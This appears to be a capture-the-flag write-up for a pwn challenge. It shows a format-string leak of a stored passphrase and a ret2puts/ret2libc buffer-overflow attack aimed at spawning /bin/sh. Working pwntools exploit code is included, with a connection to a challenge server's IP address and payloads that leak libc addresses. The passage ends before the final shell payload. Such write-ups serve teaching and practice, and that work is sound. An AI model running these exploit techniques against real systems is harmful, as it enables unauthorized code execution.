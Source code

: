 When we execute the binary it first ask for the password. The password is stored in a file name <span style="color:red">`passPhrase`</span> so it opens the file and check if the password we entered is equal to the password in the passPhrase file. The password field accept input of 15 characters and is vulnerable to format string.

Remember what I said previously that it opens the file for password comparison so just like the previous challenge we can leak out the password using format string. The password starts at the 8th value on stack

```python
def leak_passphrase():
    p = remote("185.235.41.205",7050)
    p.recv()
    p.sendline(b"%8$llx %9$llx")
    p.recvuntil(b"Your password is ")
    l = p.recv()[:-1].split(b" ")
    p.close()
    password = b""
    for i in l:
        password += p64(int(i,16))
    return password
```

when you enter the correct password it then ask for your name and exits thats it. But the name field has a buffer overflow so where we have to return I mean theres isn't a specific function which will print out the flag.

So I guess we have to do <span style="color:red">`ret2libc`</span> attack. so we basically has to call <span style="color:red">`system("/bin/sh")`</span> and how we gonna do that cause we don't know the address of system also the system has <span style="color:red">`ASLR`</span> enabled.

Heres the exploit we first gonna use <span style="color:red">`ret2puts`</span> this sounds funny but we are gonna use the <span style="color:red">`puts`</span> to leak out the address of <span style="color:red">`puts`</span> and once we have address of puts we can then calculate other offsets such as system and binsh.

Theres this thing called <span style="color:red">`libc database`</span> which can help you to find the libc version if you provide it with at least single address of any function in our case its gonna be puts.

```diff
- Why we need a libc database?

Cause we dont know which version of libc remote server is using
```

then as the return address for the ret2puts we use the address of <span style="color:red">`main()`</span>

```python
def leak_libc_base():
    payload = b"A"*76
    payload += p32(binary.plt['puts'])
    payload += p32(binary.symbols['main'])
    payload += p32(binary.got['puts'])

    p.recv()
    p.recv()
    p.sendline(passphrase)
    p.recv()
    p.recv()
    p.sendline(payload)
    p.recvuntil(b"***\n")
    leak = u32(p.recv(4))
    log.info("puts libc leaked address : " + hex(leak))
    libc_base = leak - libc.symbols['puts']
    log.info("libc base address : " + hex(libc_base))
    return libc_base
```